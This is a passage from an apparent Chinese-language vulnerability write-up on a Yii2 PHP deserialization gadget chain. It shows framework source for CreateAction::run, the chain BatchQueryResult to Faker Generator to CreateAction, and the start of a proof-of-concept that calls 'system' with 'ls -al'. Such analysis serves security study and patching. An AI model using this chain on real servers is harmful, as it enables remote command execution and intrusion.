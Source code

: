 <table cellpadding="0" cellspacing="0" width="603"><tbody><tr><td width="NaN">1234567891011121314151617181920212223242526272829303132333435</td><td width="558"><code>&lt;?php</code><code>namespace</code>&nbsp;<code>yii\rest;</code>&nbsp;<code>class</code>&nbsp;<code>CreateAction{</code><code>&nbsp;&nbsp;&nbsp;&nbsp;</code><code>/**&nbsp;</code><code>&nbsp;&nbsp;&nbsp;&nbsp;</code><code>......</code><code>&nbsp;&nbsp;&nbsp;&nbsp;</code><code>*/</code><code>&nbsp;&nbsp;&nbsp;&nbsp;</code><code>public</code>&nbsp;<code>function</code>&nbsp;<code>run()</code><code>&nbsp;&nbsp;&nbsp;&nbsp;</code><code>{</code><code>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code>if</code>&nbsp;<code>(</code><code>$this</code><code>-&gt;checkAccess)&nbsp;{</code><code>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code>call_user_func(</code><code>$this</code><code>-&gt;checkAccess,&nbsp;</code><code>$this</code><code>-&gt;id);</code><code>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code>}</code>&nbsp;<code>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code>/*&nbsp;@var&nbsp;$model&nbsp;\yii\db\ActiveRecord&nbsp;*/</code><code>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code>$model</code>&nbsp;<code>=&nbsp;</code><code>new</code>&nbsp;<code>$this</code><code>-&gt;modelClass([</code><code>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code>'scenario'</code>&nbsp;<code>=&gt;&nbsp;</code><code>$this</code><code>-&gt;scenario,</code><code>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code>]);</code>&nbsp;<code>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code>$model</code><code>-&gt;load(Yii::</code><code>$app</code><code>-&gt;getRequest()-&gt;getBodyParams(),&nbsp;</code><code>''</code><code>);</code><code>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code>if</code>&nbsp;<code>(</code><code>$model</code><code>-&gt;save())&nbsp;{</code><code>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code>$response</code>&nbsp;<code>=&nbsp;Yii::</code><code>$app</code><code>-&gt;getResponse();</code><code>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code>$response</code><code>-&gt;setStatusCode(201);</code><code>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code>$id</code>&nbsp;<code>=&nbsp;implode(</code><code>','</code><code>,&nbsp;</code><code>array_values</code><code>(</code><code>$model</code><code>-&gt;getPrimaryKey(true)));</code><code>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code>$response</code><code>-&gt;getHeaders()-&gt;set(</code><code>'Location'</code><code>,&nbsp;Url::toRoute([</code><code>$this</code><code>-&gt;viewAction,&nbsp;</code><code>'id'</code>&nbsp;<code>=&gt;&nbsp;</code><code>$id</code><code>],&nbsp;true));</code><code>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code>}&nbsp;</code><code>elseif</code>&nbsp;<code>(!</code><code>$model</code><code>-&gt;hasErrors())&nbsp;{</code><code>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code>throw</code>&nbsp;<code>new</code>&nbsp;<code>ServerErrorHttpException(</code><code>'Failed&nbsp;to&nbsp;create&nbsp;the&nbsp;object&nbsp;for&nbsp;unknown&nbsp;reason.'</code><code>);</code><code>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code>}</code>&nbsp;<code>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code>return</code>&nbsp;<code>$model</code><code>;</code><code>&nbsp;&nbsp;&nbsp;&nbsp;</code><code>}</code><code>&nbsp;&nbsp;&nbsp;&nbsp;</code><code>/**&nbsp;</code><code>&nbsp;&nbsp;&nbsp;&nbsp;</code><code>......</code><code>&nbsp;&nbsp;&nbsp;&nbsp;</code><code>*/</code><code>}</code><code>?&gt;</code></td></tr></tbody></table>

$this->checkAccess 和 $this->id 都是我们可控的。所以整个利用链就出来了。

```
yii\db\BatchQueryResult::__destruct()
->
Faker\Generator::__call()
->
yii\rest\CreateAction::run()
```

构造 POC 如下：

```
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'system';
            $this->id = 'ls -al';
        }
    }
}

```